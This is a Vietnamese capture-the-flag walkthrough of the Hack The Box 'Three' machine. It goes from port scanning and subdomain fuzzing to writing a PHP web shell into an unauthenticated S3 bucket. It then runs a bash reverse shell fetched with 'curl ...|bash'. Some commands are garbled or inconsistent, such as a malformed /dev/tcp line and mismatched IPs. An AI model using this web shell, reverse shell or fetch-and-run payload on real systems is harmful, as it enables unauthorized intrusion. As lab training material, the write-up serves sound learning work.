 > Three là một máy ảo chạy Linux bao gồm một website, sử dụng AWS S3 bucket như thiết bị lưu trữ đám mây. Ta sẽ thực hành tấn công lỗ hổng dựa trên việc 
### 1. Kiểm tra thông tin mục tiêu
###### IP: 10.129.87.186
##### + Kiểm tra cổng và dịch vụ:
` nmap -p- --min-rate 1000 -sV 10.129.87.186
##### => 22/tcp ssh OpenSSH; dịch vụ cho phép kết nối từ xa.
##### => 80/tcp http Apache; web app
##### + Truy cập thử trang web:
` http://10.129.87.186 `
##### + Nghịch trang web một hồi thì thấy đa số chức năng hoạt động không đúng cách.
##### + Kiểm tra ngôn ngữ và công nghệ được sử dụng với Wappalyzer.
##### + Trong phần 'Contact' thì email : *toppers.htb*, chuyển địa chỉ IP của máy về tên miền tương ứng:
` echo "10.129.87.186 toppers.htb" | sudo tê -a /etc/hosts `
###### Đây là một bước cần thiết trong kiểm thử giúp tăng tính bảo mật và tránh rò rỉ hoạt động ra bên ngoài.
##### + Sau khi thay đổi, ta có thể truy cập website với địa chỉ http://thetoppers.htb.
##### + Brute force các tên miền phụ của trang web với wfuzz:
###### Subdomain là một phần mở rộng của tên miền đã đăng ký. Phục vụ việc chia sẻ và sắp xếp thông tin cho một chức năng cụ thể - ví dụ như blog hoặc cửa hàng online - từ website của trang chủ.
` wfuzz -c -z file,subdomains-top1million-5000.txt -H "Host: FUZZ.thetoppers.htb" http://thetoppers.htb `
###### -c: đẩy kết quả có màu khác nhau.
###### -z: file được dùng để bruteforce.
###### -H: FUZZ sẽ được thay thế bằng các từ trong danh sách từ sử dụng cho bruteforce
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/f21d8734-9f4f-4a40-8fe7-65fa1e0cd02a)
##### => có *s3* với mã khác là *404*
##### + Thêm tiền miền phụ s3 và */etc/host* :
`echo ’10.129.178.223 s3.thetoppers.htb’ | sudo tee -a /etc/hosts`
##### + Load đường link: 
```
URL:
http://s3.thetoppers.htb
Web (JSON format):
{"status:"running"}
```
###### S3 là một service lưu trữ đối tượng dựa trên đám mây. Cho phép lưu trữ trong một container gọi là buckets. AWS S3 Buckets có nhiều ứng dụng như lưu trữ, back up, media hosting, software delivery, website tĩnh.... Các file được store trong Amazon S3 bucket được gọi là *S3 objects*.
##### + Tương tấc với S3 thông qua *awscli*:
```
$  aws configure
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```
###### ở đây ‘temp’ là giá trị ngẫu nhiên cho yêu cầu của trường để kiêm thử trong trường hợp máy chủ được cấu hình để không kiểu tra xác thức (tuy nhiên phải được cấu hình thành thứ gì đó để aws hoạt động).
##### + Liệt kê tất cả các S3 Buckets hosted bởi server:
``` 
aws --endpoint=http://s3.thetoppers.htb s3 ls
2023-12-24 13:49:49 thetoppers.htb
```
##### + Sử dụng lệnh `ls` để liệt kê các Objects và các prefixes phổ biến dưới một bucket cụ thể:
```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                            PRE  images/
2023-12-14 13:49:49           0  .htaccess
2023-12-14 13:49:50       11952  index.php
```
##### => file *index.php*, *.htaccess* và một thư mục tên *Images* trong bucket. Vì webroot (đường dẫn gốc) của website chạy trên apache cổng 80 (mặc định), nên có thể hiểu rằng Apache server đang sử dụng S3 Bucket như một kho chứa.
### 2. Tấn công lỗ hổng
##### + awscli còn cho phép copy files đến một bucket từ xa. Biết rằng website đang sử dụng PHP. Thêm nữa, chúng ta có thể thử upload một file shell PHP đến s3 bucket và vì nó được upload thẳng lên webroot, nếu truy cập web này bằng trình duyệt, sẽ thi hành file và sẽ chiếm được quyền thi hành code từ xa.
##### + Quy trình tấn công: 
```
Attacker: upload file shell lên web nhằm tạo lỗ hổng Command Injection Attack.
Attacker: thực thi reverse shell, sử dụng netcat để lắng nghe.
Target: : kết nối đến netcat.
Attacker: Chiếm quyền thành công, tiến hành khai thác thông tin.
```
##### + Đầu tiên, tạo file để giúp thao túng website:
` echo '< ?php system($_GET["cmd"]); ?> `

##### + Đẩy file lên web:
```
$ aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
upload: ./shell.php to s3://thetoppers.htb/shell.php
```
##### + Kiểm tra file shell.php đã được upload thành công chưa:
```
http://thetoppers.htb/shell.php?cmd=id 
```
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/86e39306-84c7-4b62-806f-723294956e26)
##### + Có quyền thực thi code với bucket.
##### + Tiến hành các bước set up reverse shell:
```
1. Kiểm địa chỉ IP của attacker và target: ifconfig => tun0 10.10.14.89
2. Tạo reverse shell tên shell.sh với payload:
      #!/bin/bash
      bash -i >& /dev/tcp/http://10.129.87.186/1337 0>&1
=> target sẽ kết nối máy attacker qua cổng 1337
3. Bật netcat để lắng nghe cổng:
      nc -nvlp 1337
4. Khởi tạo một web server và host bash file này
      python3 -m http.server 8000
      Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
*** bước 3 & 4 ở 2 tab terminal khác nhau.
```
##### + Sau khi set up xong, tiến hành đẩy file bash lên trang web: 
`http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.89:8000/shell.sh|bash`
##### + Quay về terminal lúc bật netcat:
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/df1d2018-3228-459c-aad2-2cfc43012fcc)
##### => Reverse shell thành công!
### 3. Truy tìm sau thâm nhập:
##### + Tìm flag trong /var/www/flag.txt
` www-data@three:/var/www$ cat flag.txt `
